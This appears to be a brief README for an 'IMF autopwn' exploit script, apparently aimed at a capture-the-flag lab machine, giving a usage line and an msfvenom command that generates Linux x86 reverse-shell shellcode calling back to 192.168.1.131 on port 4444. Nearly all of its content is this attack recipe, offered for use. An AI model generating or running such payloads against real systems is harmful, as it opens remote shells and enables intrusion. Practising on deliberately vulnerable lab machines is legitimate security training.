 # IMF autopwn

Usage: python3 autopwn.py IP rce.gif

## generate your own shellcode and change it

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.131 LPORT=4444 -f python -b "\x00\x0a\x0d"
```
